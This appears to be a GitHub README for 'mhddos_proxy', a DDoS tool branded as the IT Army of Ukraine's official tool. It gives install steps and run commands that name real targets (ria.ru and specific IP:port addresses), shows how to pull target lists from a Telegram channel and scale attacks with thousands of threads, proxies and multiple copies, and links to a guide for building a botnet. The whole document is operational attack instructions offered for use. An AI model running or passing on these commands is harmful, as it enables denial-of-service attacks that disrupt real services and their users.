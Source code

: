 ## IT Army of Ukraine Official Tool

### Use flag `--lang en` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates

Update versions for | Mac | Linux | Android | Docker (UA only so far): https://telegra.ph/Onovlennya-mhddos-proxy-04-16

- **21.05.2022**
  - Added english localization - use flag `--lang EN` (more languages may be added later)

- **18.05.2022**
  - Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).

- **15.05.2022**
  - Completely updated asynchronous version, which ensures maximum efficiency and minimum load on the system

### 1. 💽 Installation

#### Extended instructions (UA only so far) - [click here](/docs/installation.md)

#### Python (if it doesn't work, try `python` or `python3.10` instead of `python3`)

Requires python >= 3.8 and git

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Install and start Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Running (different options for targets are given)

#### Python with automatic updates (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    ./runner.sh python3 https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (manual updates required) (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 3. 🛠 Options (check out more in the [CLI](#cli) section)

All options can be combined, you can specify them either before and after the list of targets

- Consider adding your IP/VPN to the attack (especially when running on dedicated server), add flag `--vpn`
- To use targets provided by https://t.me/itarmyofukraine2022, add the `--itarmy` flag  
- Number of threads - `-t XXXX` - the default is 7500 (or 1000 if the machine has only one CPU).
- Number of copies - `--copies X` - in case you have 4+ CPU and stable network > 100 Mb/s

### 4. 📌 Help with finding new proxies for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 5. 🐳 Community (mostly in Ukrainian)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --debug                Detailed log for each target
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### 7. Custom proxies

#### File format (any of the following):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
